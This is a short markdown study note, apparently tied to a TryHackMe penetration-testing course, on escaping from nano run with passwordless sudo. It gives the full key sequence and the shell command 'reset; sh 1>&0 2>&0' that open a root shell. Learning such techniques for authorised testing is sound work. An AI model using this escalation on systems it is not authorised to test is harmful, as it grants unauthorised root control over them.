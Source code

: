 # Exploiting Nano

If `nano` is allowed to be run via `sudo` without a password, you can use the following to break out into a root shell:

* `CTRL+R` (read file)
* `CTRL+X` (execute file)
* `reset; sh 1>&0 2>&0`

Boom!

* [TryHackMe: Jr. Penetration Tester](https://tryhackme.com/path/outline/jrpenetrationtester)
